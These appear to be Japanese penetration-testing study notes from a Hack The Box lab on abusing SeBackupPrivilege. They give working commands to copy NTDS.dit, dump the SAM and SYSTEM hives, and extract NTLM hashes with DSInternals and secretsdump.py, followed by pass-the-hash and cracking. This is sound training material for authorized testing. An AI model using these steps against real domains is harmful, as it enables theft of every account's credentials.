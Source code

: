 E:をのぞいてみる
```powershell-session
PS C:\htb> dir E:
    Directory: E:\
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

次に、Copy-FileSeBackupPrivilege コマンドレットを使用してACLをバイパスし、NTDS.ditをローカルにコピーする
```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

Copied 16777216 bytes
```

SAMおよびSYSTEMレジストリハイブのバックアップ
- SAMおよびSYSTEMレジストリハイブをバックアップする
	- ただし、フォルダまたはファイルに現在のユーザーまたは所属するグループに対する明示的な「拒否」のエントリがある場合、FILE_FLAG_BACKUP_SEMANTICS フラグを指定してもアクセスできないことに注意が必要
```cmd-session
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV
C:\htb> reg save HKLM\SAM SAM.SAV
```

**NTDS.ditからの認証情報の抽出**
- 抽出したNTDS.ditを使用して、secretsdump.pyのようなツールやPowerShellのDSInternalsモジュールを使用して、Active Directoryのすべてのアカウントの認証情報を抽出できる
- 以下のコマンドでは、DSInternalsを使用してドメインのadministratorアカウントのNTLMハッシュのみを取得する
```powershell-session
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
<SNIP>
Secrets
  NTHash: cf3a5525ee9414229e66279623ed5c58
  LMHash:
  NTHashHistory:
  LMHashHistory:
  SupplementalCredentials:
    ClearText:
    NTLMStrongHash: 7790d8406b55c380f98b92bb2fdc63a7
<SNIP>
```

SecretsDumpを使用したハッシュの抽出
- ntds.ditファイルからSecretsDumpをオフラインで使用してハッシュを抽出することもできる
	- パス・ザ・ハッシュ攻撃に利用
	- Hashcatなどを使用してオフラインでクラック
	- ペネトレでクラックできたら
		- パスワードクラック統計をクライアントに提示し、ドメイン全体のパスワード強度と使用状況に関する詳細な洞察を提供し、パスワードポリシーの改善（最小長さの増加、許可されない単語の辞書作成など）に関する推奨事項を提供することもできる
```shell-session
snowyowl644@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
```